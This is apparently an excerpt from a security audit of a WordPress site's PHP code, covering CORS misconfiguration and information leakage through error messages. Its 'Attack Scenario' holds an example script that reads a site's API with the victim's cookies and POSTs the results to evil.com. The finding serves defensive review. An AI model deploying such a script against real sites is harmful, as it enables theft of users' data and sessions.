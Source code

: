 **Critical Issues:**

1. **Wildcard + Credentials**:
```php
header('Access-Control-Allow-Origin: *');
header('Access-Control-Allow-Credentials: true');
// This combination is INVALID per CORS spec
// Browsers will block it, but it reveals poor security understanding
```

2. **Development localhost** still in production:
```php
'http://localhost:3000',  // Should be removed in production
```

3. **Fallback to wildcard**:
```php
$origin = $origin ?: '*';  // If no origin, allows ALL
```

**Attack Scenario:**
```html
<!-- Malicious site: evil.com -->
<script>
  fetch('https://realtreasury.com/wp-json/rt/v1/posts', {
    credentials: 'include'  // Sends cookies
  })
  .then(r => r.json())
  .then(data => {
    // Steal all post data
    // Send to attacker's server
    fetch('https://evil.com/steal', {
      method: 'POST',
      body: JSON.stringify(data)
    });
  });
</script>
```

**Why This Matters:**
While your content is public, loose CORS allows malicious sites to:
- Scrape content programmatically
- Make authenticated requests from victim's browser
- Bypass rate limiting (using victim's IP)
- Steal session data

---

### 10. Information Disclosure 🟡

**Locations of Information Leakage:**

#### 10.1 Error Messages
```php
// Line 175 - Reveals field requirements
error_log('❌ TPA Error: Form submission missing required fields (Email or First Name).');

// Line 232 - Database errors
error_log('❌ TPA DB Error: ' . $wpdb->last_error);

// Line 350 - User enumeration
wp_send_json_error(['message' => 'User not found in system.'], 404);
```
